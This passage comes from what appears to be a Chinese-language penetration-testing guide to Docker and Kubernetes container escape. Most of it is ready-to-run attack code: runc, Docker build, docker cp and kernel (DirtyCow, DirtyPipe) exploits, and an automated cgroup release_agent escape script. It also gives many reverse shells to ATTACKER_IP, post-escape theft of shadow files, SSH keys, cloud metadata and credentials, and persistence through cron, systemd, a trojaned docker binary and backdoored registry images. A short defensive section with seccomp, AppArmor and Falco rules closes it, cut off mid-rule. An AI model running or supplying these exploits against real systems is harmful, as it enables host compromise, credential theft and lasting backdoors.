# 5. 在宿主机上执行 docker exec（管理员正常操作）
docker exec -it CONTAINER_ID bash
# ← 此时宿主机上的 runc 已被覆盖，反弹 shell 回到攻击机
```

### 4.2 CVE-2024-21626 — runc 工作目录逃逸

> **漏洞等级：** 🔴 严重  
> **影响范围：** runc 1.0.0-rc1 ~ 1.1.11, Docker 23.0.0 ~ 25.0.3  
> **利用方式：** 通过 `/proc/self/fd/8` 或 `/proc/self/fd/9` 访问宿主机文件系统

#### 原理

runc 在设置容器工作目录时存在 **TOCTOU (time-of-check time-of-use)** 问题，导致 `/proc/self/fd/<n>` 指向宿主机文件系统。

```bash
# === 检测 ===
# 检查 /proc/self/fd/ 中的可疑链接
ls -la /proc/self/fd/
# 如果某个 fd 指向宿主机根目录，说明可能存在漏洞

# 更直接的检测
ls /proc/self/fd/8/
# 如果能看到宿主机文件（如 /root, /etc, /proc 等），则存在漏洞

# === POC: 直接用宿主机文件系统 chroot ===
ls /proc/self/fd/8/
chroot /proc/self/fd/8/ bash
# 如果成功，已获得宿主机 root shell

# 如果 fd/8 没有，尝试 fd/9, fd/10 等
for i in $(seq 0 20); do
    echo "=== fd/$i ==="
    ls -la /proc/self/fd/$i/ 2>/dev/null | head -5
done

# === 自动化检测脚本 ===
cat > /tmp/check_cve_2024_21626.sh << 'SCRIPT'
#!/bin/bash
echo "[*] Checking CVE-2024-21626..."
for i in $(seq 0 20); do
    result=$(ls /proc/self/fd/$i/ 2>/dev/null | head -1)
    if [ -n "$result" ]; then
        echo "[+] fd/$i is accessible: $(ls -la /proc/self/fd/$i 2>/dev/null)"
        echo "    Content: $(ls /proc/self/fd/$i/ 2>/dev/null | head -3)"
    fi
done
SCRIPT
chmod +x /tmp/check_cve_2024_21626.sh
/tmp/check_cve_2024_21626.sh

# === 完整利用：打开反向 shell ===
# 如果 fd/8 可用，直接写 cron 任务
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /proc/self/fd/8/etc/crontab

# 或写 SSH 公钥
mkdir -p /proc/self/fd/8/root/.ssh/
echo "ssh-rsa AAAA..." > /proc/self/fd/8/root/.ssh/authorized_keys
```

### 4.3 CVE-2019-13139 — Docker build 命令逃逸

> **漏洞等级：** 🟡 高危（需要能执行 `docker build`）
> **影响范围：** Docker < 19.03.1
> **利用方式：** 通过恶意 Dockerfile 在构建过程中逃逸

```dockerfile
# 恶意 Dockerfile — 在构建阶段逃逸
FROM ubuntu:22.04

# 利用 Docker build 时 RUN 指令在容器中以 root 执行
# 通过挂载宿主机文件系统
RUN mount /dev/sda1 /mnt && chroot /mnt bash -c "echo 'ALL ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"
RUN echo "ssh-rsa AAAA..." > /mnt/root/.ssh/authorized_keys

# 或者直接反弹 shell
RUN bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"
```

```bash
# 在攻击机上
docker build -t malicious .
```

### 4.4 CVE-2019-14271 — docker cp 命令逃逸

> **漏洞等级：** 🟡 高危（需要能使用 `docker cp`）
> **影响范围：** Docker 19.03.0 ~ 19.03.1
> **利用方式：** 通过替换容器内的 `libnss_*.so` 库，在 `docker cp` 执行时触发代码

```bash
# 原理：docker cp 从容器复制文件时，会加载容器的 nss 库
# 攻击者替换容器内的 libnss_*.so 为恶意共享库

# === 在容器内准备恶意共享库 ===
cat > /tmp/libnss_escape.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void escape_init() {
    // 这个函数在共享库被加载时自动执行
    // 此时运行在宿主机上下文中，但容器内文件系统仍可见
    // 实际利用中这里执行反弹 shell
    system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' &");
}
EOF

gcc -shared -fPIC -o /lib/x86_64-linux-gnu/libnss_escape.so.2 /tmp/libnss_escape.c

# 修改 /etc/nsswitch.conf 使其加载该库
echo "hosts: files escape" >> /etc/nsswitch.conf

# 等待管理执行 docker cp
# docker cp CONTAINER_ID:/some/file /tmp/
# 触发 nss 加载 → 恶意代码执行
```

### 4.5 经典CVE速查表

| 编号 | 影响组件 | 影响版本 | 利用方式 | 攻击复杂度 |
|:----|:--------|:--------|:--------|:---------:|
| **CVE-2019-5736** | runc | < 1.0-rc6 | 覆盖宿主机runc二进制 | 🔴 高 |
| **CVE-2024-21626** | runc | < 1.1.12 | /proc/self/fd/ 逃逸 | 🟢 低 |
| **CVE-2019-13139** | Docker build | < 19.03.1 | 恶意 Dockerfile | 🟢 低 |
| **CVE-2019-14271** | docker cp | 19.03.0-19.03.1 | 替换容器 nss 库 | 🟡 中 |
| **CVE-2019-16884** | containerd | < 1.2.10 | 镜像拉取过程逃逸 | 🟡 中 |
| **CVE-2020-15257** | containerd | < 1.3.9, < 1.4.3 | 通过 host network + shim API | 🟡 中 |
| **CVE-2021-21284** | containerd | < 1.3.10, < 1.4.5 | 通过 `image pull` | 🟡 中 |
| **CVE-2023-25173** | Docker (containerd) | < 20.10.23 | Supplementary groups 配置不当 | 🟢 低 |

---

## 五、Linux内核漏洞逃逸

由于容器与宿主机共享内核，内核漏洞可以直接导致容器逃逸。

### 5.1 CVE-2016-5195 — DirtyCow（脏牛）

> **影响内核：** Linux 2.6.22 ~ 4.8.3  
> **利用难度：** 🟢 低（POC 成熟，稳定）  
> **原理：** 写时复制（COW）竞态条件，可提权到 root

```bash
# === 检测 ===
uname -r | grep -E "2\.[6-9]|3\.[0-9]|4\.[0-8]"
# 如果在范围内则可能受影响

# === 标准 DirtyCow POC ===
# 下载并编译
wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
# 或从攻击机传送
scp dirtyc0w.c ATTACKER_IP:/tmp/

gcc -pthread dirtyc0w.c -o dirtyc0w
./dirtyc0w /etc/passwd "root:$(openssl passwd -1 P@ssw0rd):0:0:root:/root:/bin/bash"

# 验证
su - root
# 密码: P@ssw0rd
# 获得宿主机 root 权限
```

### 5.2 CVE-2022-0847 — DirtyPipe

> **影响内核：** 5.8 ~ 5.16.11, 5.15.25, 5.10.102  
> **利用难度：** 🟢 低（POC 成熟，1秒提权）  
> **原理：** 管道（pipe）缓冲区缓存未初始化标志位，可写入任意只读文件

```bash
# === 检测 ===
uname -r | grep -E "5\.([8-9]|1[0-6])\.[0-9]"
# 或在范围内

# === DirtyPipe POC ===
# https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-1.c
gcc exploit-1.c -o exploit-1
./exploit-1
# 替换 /etc/passwd 中的 root 密码

# 或者使用更成熟的 exploit
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/exploit-2.c
gcc exploit-2.c -o exploit-2
./exploit-2 /usr/bin/su
# 直接获得 root shell

# === Docker 容器内利用 DirtyPipe ===
# 在容器内编译运行 DirtyPipe POC
# 由于容器共享宿主机内核，DirtyPipe 可以直接修改宿主机上不可写的文件
# 例如修改宿主机 /etc/shadow
# 注意：容器内通常 mount --bind 了 /etc 为 tmpfs，需要找到宿主机原始路径
cat /proc/mounts | grep /etc

# 如果能找到宿主机 /etc 的实际路径，可以直接利用
```

### 5.3 CVE-2021-22555 — CAN BCM 堆溢出

> **影响内核：** Linux 2.6 ~ 5.12  
> **影响版本：** Ubuntu 16.04-21.04, Debian 8-11, Fedora 28-34  
> **利用难度：** 🔴 高（但 POC 公开）

```bash
# === 检测 ===
uname -r
# 检查内核版本是否在 2.6 ~ 5.12 之间

# === POC ===
# 需要编译并运行，利用 CAN BCM 模块的堆溢出
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/kernelctf/CVE-2021-22555/exploit.c
gcc exploit.c -o exploit
./exploit

# 如果成功，获得 root shell
# 注意：在某些容器环境中，可能需要特定的 capabilities
```

### 5.4 CVE-2017-1000112 — UDP 内存破坏

> **影响内核：** 4.4 ~ 4.13（某些发行版修复较晚）  
> **利用方式：** 通过 UDP 协议的内存破坏实现提权

```bash
# === POC 下载 ===
git clone https://github.com/xairy/kernel-exploits.git
cd kernel-exploits/CVE-2017-1000112
make

# 在容器内运行
./poc
# 如果成功，获得 root shell
```

### 5.5 CVE-2022-0492 — cgroup 释放后使用

> **影响内核：** 所有包含 cgroup v1 的内核（Ubuntu 16.04+ 默认启用）  
> **影响版本：** 修复于 5.15.33, 5.16.19, 5.17.2  
> **利用难度：** 🟡 中（需要某些 capabilities）

```bash
# === 检测 ===
# 需要 user namespace 支持
cat /proc/sys/kernel/unprivileged_userns_clone
# 如果为 1，则更容易利用

# 需要某些 capabilities 或者 unprivileged user namespace
# 在 Docker 容器中，通常默认允许 user namespace

# === POC ===
git clone https://github.com/PaloAltoNetworks/cve-2022-0492
cd cve-2022-0492
gcc exploit.c -o exploit
./exploit
```

### 5.6 内核漏洞逃逸速查表

| CVE | 别名 | 内核版本 | 逃逸成功率 | POC成熟度 |
|:----|:----|:--------|:---------:|:---------:|
| CVE-2016-5195 | DirtyCow | 2.6.22~4.8.3 | ✅✅✅ | ⭐⭐⭐ |
| CVE-2022-0847 | DirtyPipe | 5.8~5.16.11 | ✅✅✅ | ⭐⭐⭐ |
| CVE-2021-22555 | CAN BCM | 2.6~5.12 | ✅✅ | ⭐⭐ |
| CVE-2017-1000112 | UDP 内存破坏 | 4.4~4.13 | ✅✅ | ⭐⭐ |
| CVE-2022-0492 | cgroup UAF | < 5.17.2 | ✅✅ | ⭐⭐ |
| CVE-2017-6074 | DCCP | 2.6.18~4.9 | ✅ | ⭐⭐ |
| CVE-2016-8655 | af_packet | 2.6~4.8 | ✅ | ⭐⭐ |
| CVE-2022-0185 | filesystem 堆溢出 | 5.1~5.16 | ✅ | ⭐⭐ |

---

## 六、Capabilities 深度利用

### 6.1 危险 Capabilities 实战场景

| Capability | 需满足条件 | 利用方法 | 难度 |
|:----------|:---------|:--------|:---:|
| `SYS_ADMIN` | 无额外条件 | cgroup notify_on_release | 🟡 |
| `SYS_ADMIN` | `--pid=host` | nsenter 进入宿主机命名空间 | 🟢 |
| `SYS_PTRACE` | `--pid=host` 或 YAMA=0 | ptrace 注入宿主机进程 | 🟡 |
| `SYS_RAWIO` | 无额外条件 | 操作物理内存 /dev/mem | 🔴 |
| `SYS_MODULE` | 无额外条件 | 加载内核模块 | 🟡 |
| `DAC_OVERRIDE` | 宿主机目录挂载 | 绕过权限读写文件 | 🟢 |
| `NET_ADMIN` | `--network=host` | 修改宿主机防火墙规则 | 🟡 |

### 6.2 SYS_ADMIN + nsenter 逃逸

```bash
# === 前置条件：容器以 --pid=host 运行 ===
# 检测
cat /proc/1/cgroup | head -1
# 如果能看到宿主机 init 进程

# nsenter 命令可以进入指定进程的命名空间
# 找个宿主机 init 进程
PID=$(lsns -t pid | grep -v PID | awk '{print $4}' | head -1)
# 或者直接找 PID 1
PID=1

# 进入宿主机各命名空间
nsenter --target $PID --mount --uts --ipc --net --pid -- bash

# 如果 nsenter 不可用，可以使用 golang 或 c 重写
cat > /tmp/nsenter_escape.go << 'EOF'
package main

import (
    "os"
    "os/exec"
    "syscall"
)

func main() {
    cmd := exec.Command("/bin/bash")
    cmd.Stdin = os.Stdin
    cmd.Stdout = os.Stdout
    cmd.Stderr = os.Stderr
    cmd.SysProcAttr = &syscall.SysProcAttr{
        Cloneflags: syscall.CLONE_NEWNS | syscall.CLONE_NEWUTS | syscall.CLONE_NEWIPC | syscall.CLONE_NEWNET | syscall.CLONE_NEWPID,
    }
    cmd.Run()
}
EOF
go build -o /tmp/nsenter_escape /tmp/nsenter_escape.go
/tmp/nsenter_escape
```

### 6.3 SYS_ADMIN + cgroup 逃逸（经典方案）

> 详细方法见第七章，这是最稳定的 SYS_ADMIN 利用方式。

### 6.4 SYS_MODULE 逃逸

> 见第三章 3.4 节的 SYS_MODULE 利用方式。

---

## 七、cgroup 逃逸（核心技巧）

### 7.1 cgroup 基础

**cgroup** (Control Group) 用于限制进程组的资源使用。Docker 使用 cgroup 限制容器资源。

**cgroup v1** 中有一个危险功能：`notify_on_release` + `release_agent`。

### 7.2 notify_on_release 逃逸原理



### 7.3 完整 POC

```bash
# === 方案1：使用 release_agent 执行命令 ===
# 前置条件：容器有 SYS_ADMIN capability

# 步骤1：挂载 cgroup
mkdir -p /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp
# 如果 memory 不行，尝试其他控制器
# mount -t cgroup -o rdma cgroup /tmp/cgrp
# mount -t cgroup -o pids cgroup /tmp/cgrp
# mount -t cgroup -o cpuset cgroup /tmp/cgrp

# 步骤2：创建子 cgroup
mkdir -p /tmp/cgrp/x

# 步骤3：设置 release_agent
# 关键：release_agent 路径需要在宿主机文件系统中可执行
# 最简单方法：利用 docker 挂载的路径或 /proc/self/fd
echo "/bin/bash" > /tmp/cgrp/release_agent
# 注意：release_agent 的路径是宿主机路径！
# 如果直接写 /bin/bash，宿主机必须也有这个文件

# 更可靠：使用容器中存在的脚本路径，但要在宿主机上可访问
# 思路：在宿主机的某个写权限位置创建脚本

# 步骤4：设置 notify_on_release
echo 1 > /tmp/cgrp/x/notify_on_release

# 步骤5：将当前 shell 的 PID 写入 cgroup.procs
# 这会把当前进程加入 cgroup
# 当进程退出时，cgroup 触发 release_agent
echo $$ > /tmp/cgrp/x/cgroup.procs

# 步骤6：触发 release（当前 shell 退出）
# 当当前 shell 退出时，cgroup 检测到最后一个进程退出
# 然后执行 release_agent 路径下的程序
# 但因为 release_agent 是 "/bin/bash"，而我们没有设置 payload
# 所以需要更复杂的方案

# === 方案2：完整的 release_agent 逃逸 ===
# 使用自定义脚本作为 payload

# 在容器内创建 payload 脚本
cat > /tmp/escape.sh << 'EOF'
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
EOF
chmod +x /tmp/escape.sh

# 挂载 cgroup
mkdir -p /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp

# 创建子 cgroup
mkdir -p /tmp/cgrp/x

# 设置 release_agent 指向我们的脚本
# 关键问题：release_agent 路径是宿主机视角
# 解决方案：通过 /proc/self/exe 或已挂载的宿主机目录

# 方案A：如果有宿主机目录挂载（如 /host）
echo "/host/tmp/escape.sh" > /tmp/cgrp/release_agent

# 方案B：使用 docker.sock 创建挂载了宿主机目录的容器
# （见第三章）

# 方案C：利用 /proc/self/fd 判断宿主机可见的路径
# 有时 /tmp 在宿主机上可见

# 方案D：通过写入宿主机文件系统（如果有挂载）
# 先检查
ls /host/tmp/ 2>/dev/null || ls /mnt/tmp/ 2>/dev/null

# 设置 release_agent
echo "/host/tmp/escape.sh" > /tmp/cgrp/release_agent

# 触发
echo 1 > /tmp/cgrp/x/notify_on_release
echo $$ > /tmp/cgrp/x/cgroup.procs

# 退出当前 shell
exit
# ← 此时在攻击机上应该收到反弹 shell
```

### 7.4 自动化脚本

```bash
# === 自动化 cgroup 逃逸脚本 ===
cat > /tmp/cgroup_escape.sh << 'SCRIPT'
#!/bin/bash

echo "[*] Docker cgroup notify_on_release Escape"
echo "[*] Checking prerequisites..."

# 检查 SYS_ADMIN
if ! getpcaps 1 2>/dev/null | grep -q sys_admin; then
    echo "[-] No SYS_ADMIN capability"
    # 尝试使用 user namespace 绕过
    echo "[*] Trying user namespace approach..."
fi

# 查找可用的宿主机写路径
HOST_TMP_DIRS=("/host" "/mnt" "/var/lib/docker" "/proc/1/root")

for dir in "${HOST_TMP_DIRS[@]}"; do
    if [ -d "$dir" ] && [ -w "$dir/tmp" 2>/dev/null ]; then
        echo "[+] Found writable host path: $dir/tmp"
        PAYLOAD_PATH="$dir/tmp/.escape_payload"
        break
    fi
done

# 如果没找到，尝试通过 /proc/1/root 访问
if [ -z "$PAYLOAD_PATH" ]; then
    # 检查 /proc/1/root 是否可访问
    if ls /proc/1/root/ 2>/dev/null | grep -q root; then
        echo "[+] Can access host through /proc/1/root"
        # 尝试写入
        echo "test" > /proc/1/root/tmp/.test_write 2>/dev/null
        if [ $? -eq 0 ]; then
            echo "[+] Can write to /proc/1/root/tmp/"
            PAYLOAD_PATH="/tmp/.escape_payload"
            HOST_VIEW_PATH="/tmp/.escape_payload"
            # 需要让宿主机能看到这个文件
            # 复制到宿主机 /tmp
            cp /tmp/.payload_sh /proc/1/root/tmp/.escape_payload 2>/dev/null
        fi
    fi
fi

# 如果没有宿主机写权限，尝试另一种方法
# 使用宿主机上已有的二进制来执行命令
# echo "bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" > /tmp/cgrp/release_agent

# 创建 payload
cat > /tmp/.payload_sh << 'PAYLOAD'
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
PAYLOAD
chmod +x /tmp/.payload_sh

# 尝试 cgroup 逃逸
mkdir -p /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp 2>/dev/null
if [ $? -ne 0 ]; then
    # 尝试其他控制器
    for ctl in rdma pids cpuset hugetlb blkio; do
        mount -t cgroup -o $ctl cgroup /tmp/cgrp 2>/dev/null && break
    done
fi

if [ ! -f /tmp/cgrp/release_agent ]; then
    echo "[-] Cannot mount cgroup"
    exit 1
fi

echo "[+] cgroup mounted successfully"

mkdir -p /tmp/cgrp/x
echo "/tmp/.payload_sh" > /tmp/cgrp/release_agent
echo 1 > /tmp/cgrp/x/notify_on_release

echo "[*] Triggering release_agent..."
echo $$ > /tmp/cgrp/x/cgroup.procs

echo "[*] Exiting to trigger escape..."
exit 0
SCRIPT

chmod +x /tmp/cgroup_escape.sh
```

### 7.5 cgroup v1 vs v2

| 特性 | cgroup v1 | cgroup v2 |
|:----|:---------|:---------|
| release_agent 支持 | ✅ 支持 | ⚠️ 需要设置 |
| notify_on_release | ✅ 默认支持 | ✅ 支持 |
| 逃逸利用难度 | 🟢 容易 | 🟡 较难 |
| 默认 Docker 使用 | 早期版本 | 新版本（Ubuntu 22.04+） |
| 逃逸方法 | notify_on_release + release_agent | 需要更多条件 |

---

## 八、容器逃逸后操作

### 8.1 逃逸后攻击流程



### 8.2 信息收集（10项）

```bash
# === 1. 主机基本信息 ===
uname -a
cat /etc/os-release
hostname

# === 2. 网络信息 ===
ip addr
ip route
ss -tlnp
iptables -L -n
cat /etc/hosts

# === 3. 用户和权限 ===
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
w

# === 4. SSH 密钥 ===
ls -la /root/.ssh/
cat /root/.ssh/id_rsa
cat /root/.ssh/authorized_keys
cat /home/*/.ssh/id_rsa 2>/dev/null

# === 5. Docker 相关信息 ===
docker ps
docker images
docker info
ls -la /var/lib/docker/

# === 6. 其他容器的数据 ===
ls /var/lib/docker/containers/
for c in /var/lib/docker/containers/*/; do
    echo "=== $(basename $c) ==="
    cat $c/config.v2.json 2>/dev/null | python3 -m json.tool 2>/dev/null
done

# === 7. 云元数据（如果在云上） ===
# AWS
curl -s http://169.254.169.254/latest/meta-data/
# Azure
curl -s -H "Metadata:true" http://169.254.169.254/metadata/instance?api-version=2021-02-01
# GCP
curl -s http://metadata.google.internal/computeMetadata/v1/
# 阿里云
curl -s http://100.100.100.200/latest/meta-data/

# === 8. 环境变量（包含敏感信息） ===
env
cat /proc/1/environ | tr '\0' '\n'

# === 9. 配置文件中的凭据 ===
grep -r "password\|secret\|token\|access_key" /etc/ /root/ /home/ --include="*.yml" --include="*.yaml" --include="*.conf" --include="*.ini" 2>/dev/null

# === 10. 历史命令 ===
cat /root/.bash_history
cat /home/*/.bash_history
```

### 8.3 持久化（5种方式）

```bash
# === 1. SSH 后门 ===
mkdir -p /root/.ssh
echo "ssh-rsa AA...your_pubkey..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# === 2. 计划任务 ===
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /etc/crontab
# 或
echo "@reboot root /root/.backdoor.sh" >> /etc/crontab

# === 3. Systemd 服务 ===
cat > /etc/systemd/system/docker-helper.service << 'EOF'
[Unit]
Description=Docker Helper
[Service]
Type=forking
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4445 0>&1'
Restart=always
RestartSec=60
[Install]
WantedBy=multi-user.target
EOF
systemctl enable docker-helper.service
systemctl start docker-helper.service

# === 4. 替换系统二进制 ===
# 创建后门版本的 docker 命令
mv /usr/bin/docker /usr/bin/docker.orig
cat > /usr/bin/docker << 'SCRIPT'
#!/bin/bash
# 在执行原始 docker 前执行后门
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4446 0>&1' &
/usr/bin/docker.orig "$@"
SCRIPT
chmod +x /usr/bin/docker

# === 5. Docker 镜像后门 ===
# 在所有现有容器中植入后门
for container in $(docker ps -q); do
    docker exec $container /bin/bash -c 'echo "ssh-rsa AA..." >> /root/.ssh/authorized_keys'
done

# 创建含后门的镜像
docker commit $(docker ps -lq) backdoored-image
docker tag backdoored-image registry.example.com/backdoored
docker push registry.example.com/backdoored
```

---

## 九、特殊场景逃逸

### 9.1 Kubernetes Pod 逃逸

K8s 环境中的容器逃逸与纯 Docker 有区别：

| 攻击向量 | K8s 特有风险 | 利用方式 |
|:--------|:-----------|:--------|
| **kubelet API** | 节点 kubelet 暴露 10250 端口 | 获取节点 Shell |
| **Service Account** | Pod 自动挂载 SA Token | 通过 API Server 创建特权 Pod |
| **特权容器** | K8s 允许创建特权 Pod | 标准特权逃逸 |
| **HostPath** | HostPath 卷挂载 | 挂载宿主机文件系统 |
| **K8s Dashboard** | Dashboard 配置不当 | 通过 Dashboard 创建 Pod |
| **etcd** | etcd 存储所有集群数据 | 获取 Admin 凭证 |

#### 方法1：利用 Pod Service Account

```bash
# Pod 内通常自动挂载 SA Token
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# 导出变量
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER="https://kubernetes.default.svc"

# 检查权限
curl -sk $APISERVER/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
  -H "Authorization: Bearer $TOKEN"

# 尝试创建特权 Pod
cat > /tmp/escape-pod.yaml << 'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: escape-pod
spec:
  containers:
  - name: escape
    image: ubuntu:22.04
    command: ["/bin/bash", "-c", "chroot /host bash"]
    volumeMounts:
    - name: host
      mountPath: /host
    securityContext:
      privileged: true
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
  restartPolicy: Never
EOF

# 通过 API 创建
curl -sk $APISERVER/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/yaml" \
  --data-binary @/tmp/escape-pod.yaml
```

#### 方法2：利用 kubelet API（10250 端口）

```bash
# 如果网络可访问 kubelet
curl -sk https://NODE_IP:10250/pods

# 在 Pod 中执行命令
curl -sk https://NODE_IP:10250/run/NAMESPACE/POD_NAME/CONTAINER_NAME \
  -X POST \
  -d "cmd=id"
```

#### 方法3：利用 HostPath 挂载

```bash
# 如果 Pod 有 HostPath 挂载（常见于 log agent, monitoring 等）
# 检查挂载
mount | grep -E "^/dev|:/"

# 如果挂载了 /var/lib/kubelet
ls /host/var/lib/kubelet/
# 可以访问所有 Pod 的文件系统
ls /host/var/lib/kubelet/pods/
```

### 9.2 非 root 容器逃逸

非 root 容器意味着容器内的用户不是 root，但 Docker 默认的 Capabilities 仍然存在。

```bash
# === 检测 ===
whoami
id

# === 逃逸方法1：利用 Docker Socket 权限 ===
# 即使不是 root，如果 docker.sock 权限允许，也能使用
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker ...
# 如果当前用户在 docker 组
groups
# 如果在 docker 组，直接用 docker 命令

# === 逃逸方法2：利用 SUID 二进制 ===
find / -perm -4000 2>/dev/null
# 如果有 docker 相关的 SUID 程序

# === 逃逸方法3：利用内核漏洞 ===
# 内核漏洞提权通常不关心容器用户
# DirtyPipe, DirtyCow 等仍然可用

# === 逃逸方法4：利用环境变量 ===
# 如果 LD_PRELOAD 可用
echo 'void __attribute__((constructor)) init() { setuid(0); system("bash"); }' > /tmp/root.c
gcc -shared -fPIC -o /tmp/root.so /tmp/root.c
LD_PRELOAD=/tmp/root.so /some/suid/program
```

### 9.3 Alpine / BusyBox 环境对抗

Alpine 和 BusyBox 是轻量级容器镜像，缺少许多常见工具和库。渗透测试者需要适应这些环境。

```bash
# === Alpine 特点 ===
# - 使用 musl libc 而非 glibc
# - 包管理器 apk
# - 没有 bash（用 ash）
# - 没有 gcc / python / perl（需手动安装）

# === 安装常用工具 ===
apk add --no-cache curl
apk add --no-cache bash
apk add --no-cache python3
apk add --no-cache gcc musl-dev
apk add --no-cache docker-cli

# === 使用 ash 标准反弹 Shell ===
# ash 不支持某些 bash 特性，但基本的 IO 重定向支持
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
# 如果 bash 不可用，用 sh
sh -c 'sh -i >/dev/tcp/ATTACKER_IP/4444 2>&1 0<&1'

# === 在 busybox 中编译 C 程序 ===
# busybox 可能没有 gcc
# 使用静态编译的二进制
# 在攻击机上交叉编译
gcc -static -o exploit exploit.c
# 然后上传到容器

# === 无 Python 环境 ===
# 使用 Go 编译的二进制
GOOS=linux GOARCH=amd64 go build -o exploit exploit.go
# 或使用纯 shell 脚本
```

---

## 十、防御与检测

### 10.1 Docker 安全配置清单

| 配置项 | 安全设置 | 检查命令 |
|:------|:--------|:--------|
| 禁止特权容器 | `--no-privileged` | `docker ps --format '{{.ID}} {{.Command}}' \| grep privileged` |
| 限制 Capabilities | `--cap-drop=ALL --cap-add=NET_BIND_SERVICE` | `docker inspect --format '{{.HostConfig.CapAdd}}'` |
| 只读根文件系统 | `--read-only` | `docker inspect --format '{{.HostConfig.ReadonlyRootfs}}'` |
| 禁止 docker.sock 挂载 | 不允许挂载 | 定期扫描容器挂载 |
| Seccomp 策略 | 使用默认或自定义 | `docker info --format '{{.SecurityOptions}}'` |
| AppArmor/SELinux | 启用并配置 | `aa-status` / `getenforce` |
| 用户命名空间 | `--userns-remap` | `dockerd --userns-remap` |
| 资源限制 | `--memory --cpus` | `docker inspect --format '{{.HostConfig.Memory}}'` |
| 安全日志 | 启用 Docker 审计 | `auditctl -l \| grep docker` |
| 镜像扫描 | 使用 Trivy/Clair | `trivy image IMAGE` |

### 10.2 Seccomp 配置示例

```json
{
    "defaultAction": "SCMP_ACT_ERRNO",
    "architectures": [
        "SCMP_ARCH_X86_64",
        "SCMP_ARCH_X86",
        "SCMP_ARCH_AARCH64"
    ],
    "syscalls": [
        {
            "names": [
                "accept", "bind", "brk", "clock_gettime", "clone",
                "close", "connect", "dup", "dup2", "epoll_create",
                "epoll_ctl", "epoll_wait", "exit", "exit_group",
                "fchdir", "fcntl", "fstat", "fstatfs", "ftruncate",
                "getcwd", "getdents", "getdents64", "getegid",
                "geteuid", "getgid", "getpeername", "getpgrp",
                "getpid", "getppid", "getpriority", "getrandom",
                "getresgid", "getresuid", "getrlimit", "getsockname",
                "getsockopt", "gettid", "gettimeofday", "getuid",
                "ioctl", "listen", "lseek", "lstat", "madvise",
                "mkdir", "mlock", "mmap", "mprotect", "mremap",
                "munmap", "nanosleep", "newfstatat", "openat",
                "pause", "poll", "ppoll", "prctl", "pread64",
                "prlimit64", "pwrite64", "read", "readlinkat",
                "readv", "recvfrom", "recvmsg", "rename", "rmdir",
                "rt_sigaction", "rt_sigprocmask", "rt_sigreturn",
                "sched_getaffinity", "sched_yield", "sendmsg",
                "sendto", "set_robust_list", "set_tid_address",
                "setgid", "setgroups", "setitimer", "setpgid",
                "setsid", "setsockopt", "setuid", "shutdown",
                "sigaltstack", "socket", "splice", "stat",
                "statfs", "sync", "syncfs", "taskstats",
                "tgkill", "time", "times", "truncate",
                "umask", "uname", "unlink", "unlinkat",
                "utimensat", "wait4", "waitid", "write",
                "writev"
            ],
            "action": "SCMP_ACT_ALLOW"
        }
    ]
}
```

```bash
# 使用自定义 seccomp 策略启动容器
docker run --security-opt seccomp=./custom-seccomp.json nginx
```

### 10.3 AppArmor 配置示例

```bash
# === 创建 AppArmor 策略文件 ===
cat > /etc/apparmor.d/docker-custom << 'EOF'
#include <tunables/global>

profile docker-custom flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>
  #include <abstractions/lxc/container-base>
  
  # 禁止写入任何文件到 /
  deny / rw,
  deny /** rw,
  
  # 只允许写入特定目录
  /tmp/** rw,
  /var/tmp/** rw,
  
  # 禁止挂载
  deny mount,
  deny umount,
  
  # 禁止 ptrace
  deny ptrace,
  
  # 禁止加载内核模块
  deny capability sys_module,
  deny capability sys_admin,
  deny capability sys_rawio,
  
  # 网络
  network inet tcp,
  network inet udp,
}
EOF

# 加载策略
apparmor_parser -r /etc/apparmor.d/docker-custom

# 启动容器时应用
docker run --security-opt apparmor=docker-custom nginx
```

### 10.4 运行时检测（Falco 规则）

Falco 是云原生运行时安全工具，可以检测容器逃逸行为。

```yaml
# Falco 规则示例 - 检测容器逃逸
- rule: Container Privileged Mode
  desc: Detect container running in privileged mode
  condition: container.id != host and container.privileged=true
  output: "Privileged container started (user=%user.name %container.info)"
  priority: CRITICAL
  tags: [container, mitre_privilege_escalation]

- rule: Container Mounting Docker Socket
  desc: Detect container with docker socket mounted
  condition: >
    container.id != host and
    (fd.name contains "docker.sock" or
     mount_point contains "/var/run/docker.sock")
  output: "Docker socket mounted in container (user=%user.name %container.info)"
  priority: CRITICAL
  tags: [container, mitre_privilege_escalation]

- rule: Release Agent Modification
  desc: Detect cgroup release_agent modification
  condition: >
    container.id != host and
    evt.type=write and
